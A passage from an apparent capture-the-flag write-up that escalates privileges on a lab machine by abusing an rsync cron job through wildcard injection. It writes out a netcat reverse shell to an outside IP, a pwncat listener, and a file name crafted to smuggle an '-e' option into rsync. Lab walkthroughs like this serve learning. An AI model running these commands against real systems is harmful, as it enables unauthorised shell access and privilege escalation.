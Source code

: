 ```bash
plot_admin cd /var/www/html/portal/config && rsync -t * plot_admin@127.0.0.1:~/backup
```
a cronjob that it is creating a backup of files from the directory /var/www/html/portal/config into the backup directory of the user plot_admin on the same machine, Internet is our friend so I search __"rsync cronjob privesc"__ and this [site](https://materials.rangeforce.com/tutorial/2019/11/08/Linux-PrivEsc-Wildcard/) helped me:

![rsync](./pics/rsync.png)

Our mission is a wildcard injection so first revshell file:
```bash
cd /var/www/html/portal/config

nano shell.sh

#!/bin/bash
busybox nc 10.8.98.143 7777 -e /bin/bash
```
pwncat listener:
```bash
python3 -m pwncat -lp 7777
```
then:
```bash
touch -- "-e sh shell.sh"
```
wait one minute and we will have a revshell as __"plot_admin"__, we can submit the first flag it's time to use linepas.sh.
